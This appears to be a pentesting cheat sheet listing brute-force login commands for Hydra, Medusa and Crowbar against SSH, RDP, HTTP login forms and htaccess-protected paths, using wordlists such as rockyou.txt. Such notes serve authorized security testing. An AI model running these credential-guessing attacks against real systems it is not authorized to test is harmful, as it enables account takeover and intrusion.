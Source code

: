 # Bruteforce

## Hydra
* SSH: sudo hydra -l user -p /path/of/wordlist.txt -s PORT ssh://IP
* RDP: sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://IP -> Bruteforce usernames it'll depends about logic if you need the password then put there the wordlist
* HTTP Login Form: sudo hydra -l user -P /usr/share/wordlists/rockyou.txt IP http-post-form "/*index.php*:*fm_usr*=user&*fm_pwd*=^PASS^:*Login failed. Invalid*" -> Here you have to change the parameters and the error message.

## Medusa
* HTTP htaccess: medusa -h IP -u user -P /path/of/wordlist.txt -M http -m DIR:/admin

## Crowbar
* RDP: crowbar -b rdp -s 10.11.0.22/32 -u admin -C /path/of/worlist.txt -n 1 
